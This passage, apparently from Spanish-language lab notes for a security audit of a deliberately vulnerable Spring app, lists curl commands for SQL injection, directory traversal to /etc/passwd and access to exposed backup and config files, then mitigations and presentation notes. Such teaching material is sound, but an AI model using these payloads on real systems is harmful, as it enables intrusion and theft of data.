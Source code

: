 ```bash

# 5. SQL Injection
curl "https://tu-app.koyeb.app/admin/user/1' UNION SELECT version()--"

# 6. Directory Traversal
curl "https://tu-app.koyeb.app/admin/file?filename=../../../etc/passwd"

# 7. Backup Files Access
curl https://tu-app.koyeb.app/backup/database.sql
curl https://tu-app.koyeb.app/backup/config.bak

# 8. Sensitive Data Exposure
curl https://tu-app.koyeb.app/config/database
```

---

## MITIGACIONES IMPLEMENTADAS DURANTE LA FASE 9

1. **Deshabilitar endpoints vulnerables**
2. **Implementar autenticación robusta**
3. **Configurar CORS restrictivo**
4. **Validar todas las entradas**
5. **Usar consultas preparadas**
6. **Eliminar archivos de backup expuestos**
7. **Configurar headers de seguridad**
8. **Implementar rate limiting**
9. **Deshabilitar información de debug**
10. **Actualizar configuración de Spring Security**

---

## NOTAS PARA LA PRESENTACIÓN

- Demostrar cada vulnerabilidad en vivo
- Mostrar detección con herramientas específicas
- Documentar impacto de cada vulnerabilidad
- Presentar mitigaciones efectivas
- Generar reportes de Nessus/OpenVAS
- Crear matriz de riesgos CVSS

**Recuerda**: Estas vulnerabilidades están implementadas solo para fines educativos. Al finalizar la auditoría, restaura la configuración segura.

